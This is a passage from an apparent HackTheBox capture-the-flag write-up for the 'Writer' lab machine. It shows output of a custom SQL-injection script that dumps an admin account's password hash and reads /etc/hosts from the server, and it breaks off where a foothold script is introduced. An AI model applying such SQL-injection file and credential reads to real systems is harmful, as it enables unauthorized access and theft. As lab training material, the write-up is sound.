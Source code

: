 ```console
        "/img/logo.png"
      ],
      "favicon": [
        "/img/favicon.ico"
      ],
      "ganalytics": []
    },
    "stories": {},
    "users": {
      "id": [
        "1"
      ],
      "username": [
        "admin"
      ],
      "password": [
        "118e48794631a9612484ca8b55f622d0"
      ],
      "email": [
        "admin@writer.htb"
      ],
      "status": [
        "Active"
      ],
      "date_created": []
    }
  }
}
Time: 151.73599529266357 s
```

We can also get a file. For example, `/etc/hosts`:

```console
$ python3 sqli.py /etc/hosts
127.0.0.1 localhost
127.0.1.1 writer

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

Time: 25.915094137191772 s
```

### `foothold.py`

This Python script is used to gain access on the machine. There is a sequence of tasks neede to do in order to make it:
